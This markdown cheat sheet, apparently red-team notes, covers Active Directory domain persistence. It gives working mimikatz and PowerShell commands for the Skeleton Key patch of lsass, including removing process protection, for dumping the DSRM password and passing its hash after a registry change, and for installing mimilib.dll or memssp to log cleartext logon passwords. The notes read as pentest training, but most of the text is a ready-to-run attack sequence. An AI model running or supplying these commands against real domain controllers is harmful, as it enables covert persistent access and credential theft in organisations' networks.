

# Domain Persistence - Skeleton Key, DSRM and Custom SSP

- [Domain Persistence - Skeleton Key, DSRM and Custom SSP](#domain-persistence---skeleton-key-dsrm-and-custom-ssp)
  - [Skeleton Key](#skeleton-key)
  - [DSRM](#dsrm)

---

## Skeleton Key

**Skeleton key** is a persistence technique where it is possible to patch a Domain Controller (`lsass` process) so that it allows access as any user with a single password.

The attack was discovered by Dell Secureworks used in a malware named the Skeleton Key malware.

All the publicly known methods are **NOT persistent across reboots**. Yet again, `mimikatz` to the rescue.

<br/>

Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. 

Note:
DA privileges required

```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName us-dc
```

<br/>

Now, it is possible to access any machine with a valid username and password as "mimikatz"

```
Enter-PSSession -Computername us-dc -credential us\Administrator
```

You can access other machines as well as long as they authenticate with the DC which has been patched and the DC is not rebooted.

<br/>

In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (`mimidriv.sys`) on disk of the target DC:

```
mimikatz # privilege::debug 
mimikatz # !+ 
mimikatz # !processprotect /process:lsass.exe /remove 
mimikatz # misc::skeleton 
mimikatz # !-
```

Note that above would be very noisy in logs - **Service creation**!

<br/>

---

## DSRM

**DSRM** is Directory Services Restore Mode. There is a local administrator on every DC called "`Administrator`" whose password is the DSRM password.

DSRM password (SafeModePassword) is saved when a server is promoted to Domain Controller and it is rarely changed. After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

<br/>

Dump DSRM password.

Note:
DA privs required.

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername us-dc
```

<br/>

Note:
You may compare the NTLM of domain's `administrator` and DSRM's `administrator` using:<br/>
`Invoke-Mimikatz -Command '"lsadump::lsa /patch"' Computername us-dc`<br/>
The first one is DSRM local administrator

<br/>

Since it is the 'local' administrator of the DC, we can pass the hash to authenticate. But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash.

```
Enter-PSSession -Computername us-dc
```

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

<br/>

Then use Mimikatz the pass the hash:

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:us-dc /user:Administrator /ntlm:917ecdd1b4287f7051542d0241900cf0 /run:powershell.exe"'
```

Try to list the root of `us-dc`:

```
ls \\us-dc\c$
```

<br/>

To use PSRemoting, we must force NTLM authentication:

```
Enter-PSSession -ComputerName us-dc -Authentication Negotiate
```

<br/>

---

A **Security Support Provider (SSP)** is a **DLL** which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are:

- NTLM
- Kerberos
- WDigest
- CredSSP

Mimikatz provides a custom SSP - `mimilib.dll`. This SSP logs local logons, service account and machine account passwords in clear text on the target server.

<br/>

We can use either of the ways:

**Method 1:**<br/> 
Drop the `mimilib.dll` to system32 and add `mimilib` to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`:

```
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'

$packages += "mimilib"

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

```

<br/>

**Method 2:**<br/>
Using **mimikatz**, inject into `lsass` (Not stable with Server 2016 and 2019):

```
Invoke-Mimikatz -Command '"misc::memssp"'
```

<br/>

All local logons on the DC are logged to `C:\Windows\system32\kiwissp.log`:

  

<br/>


